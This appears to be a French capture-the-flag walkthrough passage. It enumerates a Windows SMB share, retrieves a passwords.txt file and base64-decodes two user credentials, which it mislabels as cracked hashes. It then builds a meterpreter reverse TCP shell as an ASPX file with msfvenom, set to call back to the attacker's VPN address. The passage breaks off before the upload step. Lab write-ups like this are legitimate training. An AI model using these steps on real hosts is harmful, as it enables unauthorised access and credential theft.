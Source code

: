 On remarque qu'il y a un partage qui s'appelle **nt4wrksv**
Je vais voir ce qu'il y a dedans

``` 
smbclient //[IP_MACHINE]/nt4wrksv

smb: \> ls
  .                                   D        0  Sat Jul 25 17:46:04 2020
  ..                                  D        0  Sat Jul 25 17:46:04 2020
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020

smb: \> get passwords.txt
getting file \passwords.txt of size 98 as passwords.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
On peut voir qu'un fichier password.txt est présent. 
Regardons ce qu'il y a dedans :

```
cat passwords.txt        

[User Passwords - Encoded]

Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk
```
Des comptes utilisateurs sont présent. 

A première vu ce sont des hash en base 64.
Je casse les hash avec la commande base64 -d 
```
echo 'Qm9iIC0gIVBAJCRXMHJEITEyMw==' | base64 -d

Bob - !P@$$W0rD!123

echo 'QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk' | base64 -d             

Bill - Juw4nnaM4n420696969!$$$ 
```
On récupère donc 2 identifiants mais on ne peut pas s'en servir pour le moment. 
Je les garde de côté. 

[Exploitation] 
Comme j'ai vu qu'il y a un share smb et que j'y ai accès, je vais charger un revershell avec msfvenom
```
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=[IP_VPN] lport=1234 -f aspx -o shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200774 bytes
Final size of aspx file: 1014994 bytes
Saved as: shell.aspx
```
Sur le share samba : 
 